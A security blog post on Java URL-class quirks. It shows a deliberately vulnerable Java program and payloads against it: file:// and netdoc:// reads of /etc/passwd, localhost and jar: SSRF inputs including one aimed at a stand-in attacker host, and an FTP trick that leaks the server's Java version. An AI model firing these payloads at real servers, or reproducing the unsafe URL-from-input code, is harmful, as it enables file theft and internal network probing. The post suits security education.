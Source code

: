 ```yaml
---
title: "URL eccentricities in java"
date: 2020-11-02T11:11:07+05:30
Description: "LFI using netdoc, file . File makes ftp connections in java which leaks java version to the connecting ftp server"
Tags: [java,web security,lfi]
Categories: [web,java,lfi]
DisableComments: true
---
```



![IMAGE](/img/java-url/javaurl.png)

## URLConnection
To make a http request or any kind of request of an application layer protocol in java, developers mostly use the URL class that is available. Well if that objects of URL class are vulnerable , attacker can exploit [SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery),[LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) vulnerabilites to gain some leads.

Let's consider an example of URLConnection java Program

```
import java.net.*;
import java.io.*;
public class FilePOC
{
      public static void main(String[] args) throws Exception{

            URL url = new URL("<unsafe-input>");

            StringBuilder stringBuilder = new StringBuilder();

            DataInputStream dis = new DataInputStream(url.openConnection().getInputStream());
            String inputLine;

            while ((inputLine = dis.readLine()) != null) {
                System.out.println(inputLine);
            }
            dis.close();

        }
}
```

The above java program makes a URL connection that can be http, https, ftp, file, and jar. The URL Connection is made only when a getInputStream method is called. So now we can give any uri in place of \<unsafe-input\> string.

## SSRF & LFI

The program that is mentioned above is vulnerable to [SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) since we can give ```http://localhost/ssrf``` 
to make a http request to inside of production network since those are basically will be blocked by the production firewalls itself and we are exploiting the server's feature to request an http to the inside servers.

The above program is also vulnerable to [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) since we can give ```file:///etc/passwd``` 
 and get the files that are in the server itself. well we can read both files and directories.
 
In java 8 versions, netdoc protocol is supported which can be also used to read files and directories from the server. Well a [LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) scenario can be obtained through netdoc protocol also

```netdoc:///etc/passwd```

In java, there is another protocol supported called jar which can be used to perfom blind [SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) attacks. 

```jar:http://localhost!/``` 

```jar:ftp://attack.com!/```


```jar:proto-schema://domain!/```

## leaking java version through file protocol 

In JAVA, file and ftp protocols are supported. So if we issue ```ftp://somedomain/fetch/file``` in URL class and make the connection by opening the input stream, java will send the username as anonymous and password as java version which the jre runs. So if i run the java program in java 8(1.8.0_202) it will send password as java_1.8.0_202. This is the case for ftp , well let us see the case of file protocol 

If we give a file protocol with a domain name like file://domainname/etc/passwd , java makes a ftp connection to the domain name with the default credentials as anonymous:java_version_which_the_program_is_running. Well this is the case i saw in java whereas when we do the same in curl like ```curl file://domainname/etc/passwd``` it just throws an error that file with domain other than localhost is not supported and this is true with python also .

In the case of netdoc, if we give a netdoc protocol such as  ```netdoc://domainname/etc/passwd``` , java does not care about the domainname and it just fetch /etc/passwd from the local server itself. 

Using the above default behaviour of ftp connections which can be invoked from a file protocol is quite interesting and can be used to get the java version which the server is running. This technique can be used to get java version in blind exploitation cases also.


![IMAGE](/img/java-url/leakjavaversion.png)

I have created a poc for leaking java version through file and ftp protocols which is availabe [here](https://github.com/samsbp/java-file-ftp).




